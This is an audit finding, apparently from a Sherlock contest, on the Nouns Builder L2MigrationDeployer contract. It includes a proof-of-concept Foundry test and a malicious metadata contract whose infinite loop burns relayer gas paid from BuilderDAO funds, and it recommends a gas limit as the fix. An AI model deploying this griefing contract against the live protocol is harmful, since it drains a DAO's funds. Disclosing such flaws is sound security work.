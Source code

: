 Cold Blonde Sparrow

high

# A malicious actor may send multiple calls to the `L2MigrationDeployer::callMetadataRenderer()` function to deplete all available gas for legitimate `L2MigrationDeployer` transactions

## Summary

A malicious actor could deploy a DAO on `L2` using a `malicious metadata contract`. Subsequently, they could send several calls to the `L2MigrationDeployer::callMetadataRenderer()` function, consuming all the available gas for `L2MigrationDeployer transactions`, making the protocol owner to purchase additional gas using funds from the `BuilderDAO` funds.

## Vulnerability Detail


A new functionality is introduced to facilitate deployment of a DAO from `L1` to `L2` using the [L2MigrationDeployer](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol) contract. The steps to achieve this are as follows:

1. `L1` DAO pauses the auctions.
2. Offchain, a merkle root of the `L1` DAO holders is generated, query the DAO's current settings and add in the `L2MigrationDeployer` contract deployer as the first founder with zero allocation in order to be able to configure the [MerkleReserveMinter](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L114)
3. A proposal is created on `L1` DAO to call the [L2MigrationDeployer::deploy()](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L92) function, the [L2MigrationDeployer::callMetadataRenderer()](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L142C14-L142C34) function and [L2MigrationDeployer::renounceOwnership](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L168) function.
4. Now tokens can be claimed by users on `L2`.
5. `L1` DAO can send treasury funds to `L2` treasury using the [L2MigrationDeployer::depositToTreasury()](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L155C14-L155C31) function.

However, a user could deploy a DAO on `L2` using a malicious metadata contract. This contract could endlessly loop, consuming all available gas when called using the [L2MigrationDeployer::callMetadataRenderer()](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L146) function:

```solidity
File: L2MigrationDeployer.sol
142:     function callMetadataRenderer(bytes memory _data) external {
143:         (, address metadata, , , ) = _getDAOAddressesFromSender();
144: 
145:         // Call the metadata renderer
146:         (bool success, ) = metadata.call(_data);
147: 
148:         // Revert if metadata call fails
149:         if (!success) {
150:             revert METADATA_CALL_FAILED();
151:         }
152:     }
```

The [documentation](https://github.com/sherlock-audit/2023-09-nounsbuilder-0xbepresent/tree/main#q-are-there-any-off-chain-mechanisms-or-off-chain-procedures-for-the-protocol-keeper-bots-input-validation-expectations-etc) states: *L2MigrationDeployer transactions can reach above the max purchased gas for L1CrossDomainMessenger relayMessage calls. These transactions will be resubmitted by our relayer.*. Once the purchased gas has run out, the `L2MigrationDeployer` transactions will be resubmitted by the relayer (offchain bot) and the gas is bought by `BuilderDAO` as the next conversation to the sponsor suggest:

```text
0xbepresent — Today at 1:43 PM
Hi @Neokry I'm participating in the Sherlock contest. I have a question: When the message is sent from L1 to L2 to send dao's treasury funds who pay for the gas transaction?. In the contest readme says: "L2MigrationDeployer transactions can reach above the max purchased gas for L1CrossDomainMessenger relayMessage calls. ", who pays for the "purchased gas"?.

Neokry — Today at 1:53 PM
so sending the treasury funds will be after the migration steps and that call should succeed since it wont be sending any data
but for the other calls we will be using the bot that will recieve funds from BuilderDAO to execute these transactions. we think of it as a customer aquasition cost in return for recieving protocol rewards 
```

Please consider the following scenario:

1. A malicious actor deploys a DAO on `L2` using a `malicious metadata contract` that will endlessly loop until it had consumed all the available gas in a specific funcion E.g. `MaliciousRenderContract::spendAllGas()` function. 
2. The `MaliciousRenderContract::spendAllGas()` is called using the [L2MigrationDeployer::callMetadataRenderer()](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L142C14-L142C34) function on `L2` and `MaliciousRenderContract::spendAllGas()` reverts the transaction in order to the relayer to resubmit.
3. The `relayer` resubmits the transaction and the `malicious metadata contract` [consumes all the available gas](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L146) because the `MaliciousRenderContract::spendAllGas()` has an infinite loop.
4. The malicious actor floods the system with multiple calls, depleting the purchased gas for `L1CrossDomainMessenger relayMessage calls`.
5. In order to process other legitimate `L2MigrationDeployer transactions`, the `BuilderDAO` must purchase more gas.

## Impact

A malicious actor could deploy a malicious DAO on `L2` and force the protocol to buy more gas from the `BuilderDAO` funds in order to process other legitimate `L2MigrationDeployer transactions`.

I created a test where the malicious actor deploys on `L2` using a `malicious metadata contract` which will be reverted by out of gas error. Test steps:

1. Deploy the `malicious metadata renderer` contract.
2. Deploy the DAO on `L2`.
3. Call `MaliciousMetaData::spendAllGas()` function using the `L2MigrationDeployer::callMetadataRenderer()`. The `spendAllGas()` function will be reverted by a `OutOfGas` error therfore the `callMetadataRenderer()` will be reverted.

```solidity
// File: L2MigrationDeployer.t.sol
// forge test --match-test "test_MaliciousMetadata" --gas-limit 92333222 -vvv
//
import { MaliciousMetaData } from "./MaliciousMetaData.sol";
...
...
    function test_MaliciousMetadata() external {
        //
        // 1. Deploy our malicious metadata renderer
        MaliciousMetaData mm = new MaliciousMetaData();
        //
        // 2. Deploy the DAO on 'L2'
        setAltMockFounderParams();
        setMockTokenParamsWithRenderer(address(mm));
        setMockAuctionParams();
        setMockGovParams();
        setMinterParams();
        vm.startPrank(address(xDomainMessenger));
        address _token = deployer.deploy(foundersArr, tokenParams, auctionParams, govParams, minterParams);
        addMetadataProperties();
        deployer.renounceOwnership();
        vm.stopPrank();
        //
        // 3. Call malicious contract `spendAllGas()` function using the `L2MigrationDeployer::callMetadataRenderer()`
        // The `spendAllGas()` function will be reverted by a OutOfGas error therfore the `callMetadataRenderer()` will be reverted.
        bytes memory data = abi.encodeWithSignature("spendAllGas()");
        vm.expectRevert();
        vm.prank(address(xDomainMessenger));
        deployer.callMetadataRenderer(data);
    }
```

The `MaliciousMetaData.sol` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.16;

contract MaliciousMetaData {

    struct ItemParam {
        uint256 propertyId;
        string name;
        bool isNewProperty;
    }

    struct IPFSGroup {
        string baseUri;
        string extension;
    }

    function initialize(bytes calldata initStrings, address token) external pure returns (bool) {
        return true;
    }

    function addProperties(
        string[] calldata _names,
        ItemParam[] calldata _items,
        IPFSGroup calldata _ipfsGroup
    ) external pure returns (bool) {
        return true;
    }

    function spendAllGas() external pure returns (bool) {
        uint256 i = 0;
        while (true == true) {
            i += i * 30;
        }
        return true;
    }
}
```

## Code Snippet

- [L2MigrationDeployer::callMetadataRenderer()](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L142C14-L142C34)


## Tool used

Manual review

## Recommendation

Implement a gas limit for [the call](https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/deployers/L2MigrationDeployer.sol#L146).